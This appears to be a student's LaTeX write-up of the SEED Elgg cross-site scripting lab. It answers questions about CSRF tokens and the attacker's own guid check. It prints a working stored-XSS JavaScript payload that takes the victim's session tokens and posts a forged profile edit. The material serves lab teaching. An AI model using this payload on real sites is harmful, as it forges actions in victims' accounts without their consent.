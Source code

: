 \documentclass[10pt,\jkfside,a4paper]{article}
\begin{document}
\begin{enumerate}

\item Explain the purpose of lines \textcircled{1} and \textcircled{2}, why
are they needed?

These add information local only to the client. This proves to the site that
the request came from the site itself and prevent CSRF attacks.

\item If the \texttt{Elgg} application only provided the Editor mode for the
``\textit{About me}'' field, i.e you cannot switch to the Text mode, can you
still launch a successful attack?

I'm certain there \textit{is} a way to launch an attack through the Editor
mode; but I was \textbf{unable to find it}.

\end{enumerate}

\subsection{Task 5: Modifying the Victim's Profile}

I used the following javascript and successfully edited the victims profile.

\begin{lstlisting}[language=javascript]
<script type="text/javascript">;
window.onload = function(){
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  var content= token+ts+userName +
	"&description=<p>Samy is my Hero!</p>&accesslevel[description]=2"+guid;

  var samyGuid=59;
  var sendurl="http://www.seed-server.com/action/profile/edit";

  if(elgg.session.user.guid != samyGuid){
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
  }
}
</script>
\end{lstlisting}

\begin{enumerate}

\setcounter{enumi}{2}

\item why do we need \textcircled{1}? Remove this line, and repeat your
attack. Report and explain your observation.

If this line is removed then the CSRF attack will immediately affect Samy,
deleting the javascript from his own ``\texttt{About Me}''.

\end{enumerate}
\end{document}
